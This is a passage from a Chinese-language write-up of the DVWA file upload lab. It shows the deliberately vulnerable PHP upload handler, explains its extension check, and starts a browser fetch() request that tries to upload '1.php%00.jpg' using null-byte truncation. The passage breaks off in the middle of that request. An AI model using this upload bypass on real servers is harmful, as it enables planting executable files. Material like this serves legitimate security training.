 观察源码

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```

注意到改为使用文件后缀名判断，但取后缀名的逻辑有点意思：`$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);`

`strrpos` 会返回最后一次出现`.`的位置，然后`substr`从这个位置+1截取字符串，比如`1.jpg`就会取到`jpg`。直觉告诉我可以转义或者`%00`截断来解决这个问题，直接在 medium 难度的 payload 上改一改文件名`1.php%00.jpg`，然后贴进控制台试试。

```js
await fetch("http://localhost:8080/vulnerabilities/upload/#", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Content-Type": "multipart/form-data; boundary=---------------------------257607891334311387353687588123",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1"
    },
    "referrer": "http://localhost:8080/vulnerabilities/upload/",
```